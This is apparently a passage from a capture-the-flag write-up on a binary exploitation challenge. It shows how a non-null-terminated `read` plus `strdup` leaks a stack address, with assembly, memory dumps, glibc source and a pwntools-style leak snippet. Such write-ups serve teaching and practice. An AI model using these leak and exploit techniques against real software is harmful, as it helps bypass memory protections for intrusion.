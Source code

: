 As you can notice, there are plenty of "garbage" values such as a text segment address (which would be useful if PIE was on) and
a couple of stack addresses. Actually, because of the aforementioned small overflow, we can even overwrite the stack canary, but 
we definitely don't want that. Instead, we'll leak it later on.

```asm
mov rax, qword [rbp-0x28]
mov edx, 0x30
mov rsi, rax
mov edi, 0x0
call read
```

Here's the stack layout after `read` and right before the `strdup` call.

```
0x7fffffffe480:	0x4141414141414141	0x4141414141414141
0x7fffffffe490:	0x4141414141414141	0x0a41414141414141
0x7fffffffe4a0:	0x00007fffffffe590	0x1dc8d418ac21e700
```

I assume not all of you know how `strdup` works so here is its source code:

```c
/* Duplicate S, returning an identical malloc'd string.  */
char *
__strdup (const char *s)
{
  size_t len = strlen (s) + 1;
  void *new = malloc (len);

  if (new == NULL)
    return NULL;

  return (char *) memcpy (new, s, len);
}
```

Basically, it calculates the length of the string (its 1st argument) and allocates a heap chunk containing the content of its 1st argument,
the stack address in this case. Thanks to its properties, combined with the fact that `read` does not null terminate strings, the
stack leak is innevitable. Here's the heap chunk allocated by `strdup`:

```
0x603000:	0x0000000000000000	0x0000000000000031 <-- new chunk
0x603010:	0x4141414141414141	0x4141414141414141
0x603020:	0x4141414141414141	0x0a41414141414141
0x603030:	0x00007fffffffe590	0x0000000000020fd1 <-- top chunk
```

Now, since the heap pointer is stored on the stack, we can select `show` and print the heap content along with the stack address.
That leak will be proven tremendously useful later on.

```python
alloc('A'*0x1f, "yes\x00")
	
buf = stackleak() - 0x110
log.success("Buffer: 0x{:x}".format(buf))
```
